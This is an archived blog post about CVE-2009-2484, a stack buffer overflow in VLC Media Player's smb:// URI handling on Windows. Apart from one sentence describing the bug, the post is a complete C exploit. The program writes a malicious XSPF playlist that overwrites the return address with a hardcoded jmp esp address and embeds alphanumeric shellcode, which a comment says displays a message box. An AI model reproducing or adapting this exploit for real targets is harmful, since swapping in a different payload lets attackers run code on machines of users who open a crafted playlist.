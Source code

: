 ```yaml
---
comments: true
date: 2009-08-07 00:15:46+00:00
layout: post
slug: vlc-media-player-smb-uri-handling-remote-buffer-overflow-vulnerability-exploit
title: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
description: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
wordpress_id: 81
categories:
- Archive
tags:
- CVE-2009-2484
- exploits
- blog
---
```


A stack-based buffer overflow exists in the `Win32AddConnection` function in `modules/access/smb.c` in VideoLAN VLC media player 0.9.9, when running on Microsoft Windows, that allows remote attackers to execute arbitrary code via a long smb URI in a playlist file.

{% highlight c %}
/* VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
* Reference: http://www.securityfocus.com/bid/35500
*
* Tested on VLC media player 0.8.6f on WinXP SP3
*
* Coded by Pankaj Kohli
* http://www.codepwn.com
*
*/
 
#include <stdio.h>
#include <string.h>
 
// ASCII shellcode (Display a message box & exit)
unsigned char shell[] = "TY777777777777777777777777777777777QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIXkweaHrJwpf02pQzePMhyzWwSuQnioXPOHuBxKnaQlkOjpJHIvKOYokObPPwRN1uqt5PA";
 
long jmp = 0x7E485233; // jmp esp (user32.dll)
 
int main(int argc, char **argv) {
    char buff[512], *p;
    FILE *fp;
    int i;
    long *ptr;
 
    fp = fopen("sploit.xspf", "wb");
    fprintf(fp, "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n");
    fprintf(fp, "<playlist version=\"1\" xmlns=\"http://xspf.org/ns/0/\" xmlns:vlc=\"http://www.videolan.org/vlc/playlist/ns/0/\">\n");
    fprintf(fp, "\t<title>Playlist</title>\n");
    fprintf(fp, "\t<trackList>\n");
    fprintf(fp, "\t\t<track>\n");
    fprintf(fp, "\t\t\t<location>smb://example.com@www.example.com/foo/#{");
 
    printf("[*] Creating buffer\n");
    for(i=0; i<300; i++) {
        buff[i] = 'a' + ((i/4)%26);
    }
    ptr = (long *) (buff + 96);
    *ptr = jmp;
    for(i=0; i<strlen((const char *) shell); i++) {
        buff[i+100] = shell[i];
    }
    buff[300] = 0;
    fprintf(fp, "%s", buff);
 
    fprintf(fp, "}</location>\n");
    fprintf(fp, "\t\t\t<extension application=\"http://www.videolan.org/vlc/playlist/0\">\n");
    fprintf(fp, "\t\t\t\t<vlc:id>0</vlc:id>\n");
    fprintf(fp, "\t\t\t</extension>\n");
    fprintf(fp, "\t\t</track>\n");
    fprintf(fp, "\t</trackList>\n");
    fprintf(fp, "</playlist>\n");
    fclose(fp);
 
    printf("[*] Exploit file written to sploit.xspf\n");
 
    return 0;
}
{% endhighlight %}

